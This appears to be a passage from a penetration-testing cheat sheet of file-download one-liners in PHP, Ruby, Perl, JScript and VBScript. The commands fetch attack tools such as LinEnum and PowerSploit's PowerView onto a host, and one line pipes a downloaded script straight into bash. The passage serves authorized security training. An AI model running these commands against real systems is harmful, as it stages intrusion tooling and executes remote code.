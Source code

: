 ## PHP
#### PHP Download with File_get_contents()
```shell
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
#### PHP Download with Fopen()
```shell
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
#### PHP Download a File and Pipe it to Bash
```shell
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
## Other Languages
#### Ruby - Download a File
```shell
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
#### Perl - Download a File
```shell
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
## JavaScript
### wget.js
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
#### Download a File Using JavaScript and cscript.exe
##### Windows CMD
```cmd
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
## VBScript
### wget.vbs
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
```